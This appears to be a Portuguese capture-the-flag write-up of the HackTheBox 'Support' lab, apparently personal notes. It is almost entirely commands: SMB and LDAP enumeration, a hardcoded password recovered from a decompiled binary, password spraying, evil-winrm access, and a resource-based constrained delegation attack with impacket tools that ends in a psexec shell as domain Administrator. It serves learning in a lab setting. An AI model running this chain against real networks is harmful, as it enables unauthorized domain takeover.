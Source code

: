 
## Enumeracao

```
sudo nmap -sU -p 53,111,113,500,2049,161 support.htb
```

![[../../../media/Pasted image 20240609200955.png]]

```
sudo nmap -sS -p- -Pn -T5 --max-retries 0 support.htb
```

![](../../../media/Pasted%20image%2020240609201207.png)

Entao temos LDAP, DNS, Kerberos, RPC, SMB e WINRM.

### LDAP

```
ldapsearch -x -s base -H ldap://10.10.11.174
```

![](../../../media/Pasted%20image%2020240609201744.png)

### SMB

```
netexec smb 10.10.11.174 -u '' -p '' --shares
```


```
netexec smb 10.10.11.174 -u 'guest' -p '' --shares
```

![](../../../media/Pasted%20image%2020240609201929.png)

```
smbclient -U guest -N //10.10.11.174/support-tools
smbclient -U support.htb/guest -N //10.10.11.174/support-tools

#Este funcionou:
smbclient -U support.htb/guest //10.10.11.174/support-tools
```

```
smbclient -U guest //10.10.11.174/support-tools
```

![](../../../media/Pasted%20image%2020240609203329.png)

Como encontrei esses binários na máquina (inclusive o mais interessante seria o do UserInfo.exe) fui analisá-los na dnSpy e conseguimos obter a seguinte credencial:

![](../../../media/Pasted%20image%2020240611124450.png)

![](../../../media/Pasted%20image%2020240611124520.png)

Para obter a senha em texto claro, tive de refazer esse código em um compilador online:

![](../../../media/Pasted%20image%2020240611124621.png)

Agora tínhamos uma credencial:

```
usuário: ldap
senha: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Então presumi que as próximas enumerações seriam via LDAP. Dessa forma encontramos uma outra senha:

```
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

filtrando esse comando, ficou da seguinte forma:

```
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep info
```

![](../../../media/Pasted%20image%2020240611124949.png)

Fazendo o password spray, conseguimos obter mais um acesso:

```
netexec winrm 10.10.11.174 -u usernames.txt -p 'Ironside47pleasure40Watchful' --continue
```

![](../../../media/Pasted%20image%2020240611125039.png)

Então temos mais uma credencial obtida:

```
usuário: support
senha: Ironside47pleasure40Watchful
```

Assim conseguimos acesso na máquina via winrm:

```
evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful
```

![](../../../media/Pasted%20image%2020240611125204.png)
Rodando o bloodhound ainda com o usuário LDAP, notamos essa permissão perigosa:

![](../../../media/Pasted%20image%2020240611125601.png)


![](../../../media/Pasted%20image%2020240611125640.png)

Temos permissão de GenericAll no DC, então vamos tentar explorar isso fazendo uma conta de máquina e depois extraindo um ticket de serviço:

```
impacket-addcomputer -method LDAPS -computer-name 'redteam$' -computer-pass 'Summer2018!' -dc-host dc.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```

Fiz algumas tentativas, porém não funcionaram, então testei de uma forma diferente ao final, e dessa vez funcionou:

![](../../../media/Pasted%20image%2020240611130010.png)

```
impacket-addcomputer -method SAMR -computer-name 'redteam$' -computer-pass 'Summer2018!' -dc-host dc.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```


Depois de algumas tentativas, o que funcionou foi:

```
impacket-rbcd -delegate-from 'redteam$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

![](../../../media/Pasted%20image%2020240611131451.png)

Depois fiz alguns testes para verificar se conseguia subir o privilégio no domínio:

```
impacket-get -spn 'cifs/targetcomputer.testlab.local' -impersonate 'admin' 'domain/attackersystem$:Summer2018!'
```
mas o nome do usuário deve corresponder a algum já existente no domínio:

```
impacket-getST -spn 'cifs/dc.support.htb' -impersonate 'Administrator' -dc-ip 10.10.11.174 'support.htb/redteam$:Summer2018!'
```

![](../../../media/Pasted%20image%2020240611132230.png)

Dessa forma funcionou, depois é só passar o ticket:

![](../../../media/Pasted%20image%2020240611132251.png)

```
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
impacket-psexec -k -no-pass Administrator@dc.support.htb
```

